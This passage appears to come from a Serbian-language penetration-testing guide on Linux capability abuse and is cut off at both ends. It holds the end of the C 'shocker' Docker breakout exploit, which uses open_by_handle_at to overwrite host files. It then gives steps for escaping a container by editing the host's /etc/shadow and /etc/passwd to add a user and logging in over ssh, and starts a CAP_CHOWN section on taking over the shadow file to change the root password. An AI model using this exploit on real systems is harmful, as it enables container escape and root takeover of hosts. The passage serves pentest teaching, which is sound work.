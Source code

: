 ```c
0,
0,
0,
0,
0,
0,
0
}
};
fprintf(stderr, "[***] docker VMM-container breakout Po(C) 2014 [***]\n"
"[***] The tea from the 90's kicks your sekurity again. [***]\n"
"[***] If you have pending sec consulting, I'll happily [***]\n"
"[***] forward to my friends who drink secury-tea too! [***]\n\n<enter>\n");
read(0, buf, 1);
// get a FS reference from something mounted in from outside
if ((fd1 = open("/etc/hostname", O_RDONLY)) < 0)
die("[-] open");
if (find_handle(fd1, argv[1], & root_h, & h) <= 0)
die("[-] Cannot find valid handle!");
fprintf(stderr, "[!] Got a final handle!\n");
dump_handle( & h);
if ((fd2 = open_by_handle_at(fd1, (struct file_handle * ) & h, O_RDWR)) < 0)
die("[-] open_by_handle");
char * line = NULL;
size_t len = 0;
FILE * fptr;
ssize_t read;
fptr = fopen(argv[2], "r");
while ((read = getline( & line, & len, fptr)) != -1) {
write(fd2, line, read);
}
printf("Success!!\n");
close(fd2);
close(fd1);
return 0;
}
```

Da biste pobegli iz Docker kontejnera, možete **preuzeti** fajlove `/etc/shadow` i `/etc/passwd` sa hosta, **dodati** im **novog korisnika**, i koristiti **`shocker_write`** da ih prepišete. Zatim, **pristupite** putem **ssh**.

**Kod ove tehnike je kopiran iz laboratorije "Zloupotreba DAC\_OVERRIDE mogućnosti" sa** [**https://www.pentesteracademy.com**](https://www.pentesteracademy.com)

## CAP\_CHOWN

**Ovo znači da je moguće promeniti vlasništvo bilo kog fajla.**

**Primer sa binarnim fajlom**

Pretpostavimo da **`python`** binarni fajl ima ovu mogućnost, možete **promeniti** **vlasnika** fajla **shadow**, **promeniti root lozinku**, i eskalirati privilegije:
